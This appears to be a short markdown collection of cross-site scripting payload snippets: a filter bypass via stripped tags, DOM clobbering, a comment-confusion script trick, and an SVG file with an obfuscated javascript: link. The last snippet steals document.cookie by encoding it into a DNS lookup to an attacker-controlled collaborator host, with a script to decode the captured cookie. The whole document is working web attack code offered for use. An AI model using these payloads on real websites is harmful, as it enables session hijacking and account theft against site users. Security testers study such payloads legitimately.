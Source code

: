 # Snippets 

#### xss filter bypass with \</p> tag stripping    
`<</p>iframe src=javascript:alert()//`

#### DOM Clobbering XSS    
```html 
<iframe name=windowplz>
</iframe>
<script>
windowplz.alert(1)
</script>
```

#### filter confusing 
```html
<script>
  x='<!--<script>'/*</script>-->*/;alert(1)
</script>
```

#### SVG embeded payload 
```html
<?xml version="1.0" standalone="no"?>
<svg viewBox="0 0 100 100" xmlns="http://w3.org/2000/svg">
  <a href="javascript&#9;:alert(1)">
    <circle cx="50" cy="40" r="35"/>
  </a>
</svg>
```

#### cookie theft over DNS while XSS 
```html
<script> document.location = "//" + btoa(document.cookie).replace(/[A-Z]/g, '$&.').replace(/=/g, 'X') + "I." + "YourBurpCollaborator"; </script>
```
Decode:
```hmtl
atob("Your_Receveived_DNS".replace(/(.)./g, (_,x)=>x.toUpperCase()))
```
